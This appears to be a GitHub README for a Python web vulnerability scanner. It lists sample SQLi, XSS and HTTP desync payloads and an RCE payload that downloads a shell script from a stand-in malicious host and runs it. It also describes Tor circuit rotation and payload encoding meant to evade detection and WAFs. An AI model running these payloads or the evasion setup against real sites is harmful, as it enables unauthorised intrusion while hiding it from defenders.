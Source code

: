 # Advanced Web Scanner

This Python script scans web endpoints for vulnerabilities such as SQL Injection (SQLi), Cross-Site Scripting (XSS), Remote Code Execution (RCE), and HTTP Desynchronization (HTTP Desync). It uses a combination of different payloads, encoding techniques, and Tor for anonymity while testing the vulnerabilities.

## Features

- **Tor-based Anonymity**: The script routes all traffic through the Tor network to maintain anonymity.
- **Multiple Payloads**: A variety of payloads are used for different types of vulnerabilities, including evasion techniques.
- **Error Handling**: The script automatically retries failed requests and renews the Tor circuit to avoid detection and rate limiting.
- **Logging**: The script logs vulnerabilities found into separate files by type.

## Requirements

- Python 3.x
- [Tor](https://www.torproject.org/download/) (Tor client must be running locally on your machine)
- `requests` library
- `stem` library (Python Tor controller)
- `websocket-client` library

Install the required dependencies:

```bash
pip install requests stem websocket-client
```
## Configuration

Before running the script, make sure that the following configurations are set correctly:

    Tor Configuration:
        TOR_SOCKS5_PROXY: Set to the SOCKS5 proxy used by Tor (usually socks5h://127.0.0.1:9050).
        Tor Control Port: Ensure the Tor control port (9051 by default) is accessible.
        Tor Password: Set the password for authenticating with the Tor control port (you may need to configure this in the torrc file).

TOR_PASSWORD = "Passw0rd"  # Change this to your Tor password

## Payloads

The script uses a set of payloads for different vulnerability types:

    SQL Injection (SQLi): Payloads like ' OR '1'='1' -- to test SQL injection vulnerabilities.
    Cross-Site Scripting (XSS): Payloads like <img src='x' onerror='alert(1)'> to test XSS vulnerabilities.
    Remote Code Execution (RCE): Payloads like wget http://malicious.com/shell.sh | sh; to test RCE vulnerabilities.
    HTTP Desynchronization (Desync): Payloads like 0\r\n\r\nTRACE / HTTP/1.1\r\nHost: vulnerable.site\r\n to test HTTP desync vulnerabilities.

## How It Works

    Tor Circuit: The script uses Tor for anonymity, automatically renewing the Tor circuit after every 5 requests.
    Scanning: The script reads a list of endpoints from endpoints.txt and tests each endpoint with different types of payloads.
    Encoding: Payloads are encoded in various formats (default, URL encoding, Base64, and Hex) to evade detection mechanisms such as Web Application Firewalls (WAFs).
    Retries: If a request fails due to connection issues, the script retries a few times with random delays.
    WebSocket Support: Some payloads, like HTTP Desync, are sent via WebSocket for more advanced testing.
    Logging: If vulnerabilities are found, they are logged into separate files for each vulnerability type: res_sqli.txt, res_xss.txt, res_rce.txt, and res_http_desync.txt.

## How to Run

Ensure Tor is running on your system. You can start Tor with the following command (assuming Tor is installed):

```bash
sudo systemctl start tor
```

Make sure you have the endpoints.txt file with a list of endpoints you want to scan. Each endpoint should be on a new line:
```txt
http://example.com
https://vulnerable-site.com
```
Run the Python script:

    python3 Advanced_ws.py

The script will start scanning the endpoints and log the results into corresponding files.

Example Output

If the script finds any vulnerabilities, they will be logged in the following format:
```txt
[Vulnerability Type] Vulnerable: http://example.com?page=1' OR '1'='1' --
Curl: curl -X GET 'http://example.com?page=1%27%20OR%20%271%27%3D%271' --data ''
```
The results will be saved in the following files:

    res_sqli.txt for SQLi vulnerabilities
    res_xss.txt for XSS vulnerabilities
    res_rce.txt for RCE vulnerabilities
    res_http_desync.txt for HTTP Desync vulnerabilities

## Renewing Tor Circuit

To avoid detection, the script automatically renews the Tor circuit after every 5 requests by signaling Tor with the NEWNYM signal. This ensures that your IP address is changed frequently, maintaining anonymity.

## License

This script is provided as-is with no warranty under MIT license. Feel free to use and modify it according to your needs. For educational purposes only. Ensure you have explicit permission before testing any website for vulnerabilities.

## Disclaimer

This script is intended for educational purposes and responsible security research only. Unauthorized use of this script to attack or exploit systems without explicit permission is illegal and unethical. Always obtain permission from the website owner or system administrator before performing security tests.

